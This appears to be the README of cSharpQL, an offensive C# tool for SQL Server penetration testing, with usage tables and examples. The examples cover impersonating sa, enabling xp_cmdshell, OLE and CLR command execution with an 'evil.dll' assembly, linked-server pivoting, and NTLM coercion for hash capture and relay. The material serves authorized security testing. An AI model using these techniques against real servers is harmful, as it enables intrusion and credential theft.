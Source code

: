 # cSharpQL

A C# tool for SQL Server enumeration, privilege escalation, and lateral movement during penetration testing engagements.

## Limitations
- Linked servers work... kinda... just don't ask it to link to more than 2 servers... ;) 

## Overview

cSharpQL is a .NET console application that helps security professionals interact with SQL Server instances. It enables SQL Server enumeration, including linked servers, authentication relaying, permission checks, and command execution through various methods.

## Features

* **Server Enumeration**: Discover SQL Servers in a domain
* **Permission Enumeration**: Check SQL Server permissions and role memberships
* **Linked Server Support**: Enumerate and interact with linked SQL Servers
* **Linked Server Chain Traversal**: Traverse through chains of linked servers
* **Authentication Relays**: Coerce SQL Server to authenticate to an attacker-controlled SMB share
* **Command Execution**: Execute commands via:
  * xp_cmdshell
  * OLE Automation
  * CLR assemblies
* **Impersonation**: Leverage impersonation capabilities for privilege escalation
* **Automated Enablement**: Automatically enable required features if they're disabled

## Usage

```
cSharpQL.exe [flags] [options]
```

### Main Commands

| Command | Description |
|---------|-------------|
| `/enum <subcommand>` | Enumeration commands (servers, perms, impersonate, linked) |
| `/impersonate <type>` | Impersonate a SQL login or user (user, login) |
| `/hash` | Coerce SQL server to authenticate to SMB share |
| `/relay` | Create command for ntlmrelayx and coerce auth |
| `/linked <server>` | Execute commands on a linked server |
| `/enable <type>` | Enable command execution method (xpcmd, ole, clr) |
| `/clr <action>` | Manage CLR assemblies (enable, create, drop) |
| `/cmd-exec <type>` | Execute OS commands (xpcmd, ole, clr) |

### Connection Options

| Option | Description |
|--------|-------------|
| `/u <username>` | SQL Server username (default: Windows auth) |
| `/p <password>` | SQL Server password |
| `/d <domain>` | Target domain for enumeration |
| `/db <database>` | Target database (default: master) |
| `/tgt <server>` | Target SQL server (default: localhost) |

### Additional Options

| Option | Description |
|--------|-------------|
| `/ea <account>` | Execute as account (default: USER=dbo, LOGIN=sa) |
| `/sp <procedure>` | Stored procedure name (default: cmdExec) |
| `/assembly-file <path>` | Path to CLR assembly file |
| `/command <cmd>` | OS command to execute |

## Example Usage

### Enumeration

Find SQL servers in a domain:
```
cSharpQL.exe /enum servers /d example.com
```

Check permissions on a SQL server:
```
cSharpQL.exe /tgt sql01.example.com /enum perms
```

Check which accounts can be impersonated:
```
cSharpQL.exe /tgt sql01.example.com /enum impersonate
```

Enumerate linked servers:
```
cSharpQL.exe /tgt sql01.example.com /enum linked
```

### Linked Server Operations

Enumerate a linked server:
```
cSharpQL.exe /tgt sql01.example.com /linked sql02.example.com
```

Execute a command on a linked server:
```
cSharpQL.exe /tgt sql01.example.com /linked sql02.example.com /command "whoami"
```

Work with a linked server chain:
```
cSharpQL.exe /tgt sql01.example.com /linked sql02.example.com,sql03.example.com
```

### Privilege Escalation

Impersonate the SA account:
```
cSharpQL.exe /tgt sql01.example.com /impersonate login /ea sa
```

Enable xp_cmdshell and execute a command:
```
cSharpQL.exe /tgt sql01.example.com /enable xpcmd /cmd-exec xpcmd /command "whoami"
```

Create a CLR assembly and execute a command:
```
cSharpQL.exe /tgt sql01.example.com /clr create /assembly-file evil.dll /cmd-exec clr /command "whoami"
```

### Authentication Relays

Capture NTLM hash using Responder:
```
cSharpQL.exe /tgt sql01.example.com /hash
```

Relay authentication using ntlmrelayx:
```
cSharpQL.exe /tgt sql01.example.com /relay
```

## Notes

* This tool is designed for legitimate penetration testing and security assessment purposes only.
* Some functionality requires elevated privileges on the SQL Server.
* Linked server chain traversal is limited to the capabilities provided by the SQL Server and may not work in all environments.

## Requirements

* .NET Framework 4.7.3 or higher
* Appropriate permissions on target SQL Servers
* For domain enumeration: Windows domain environment
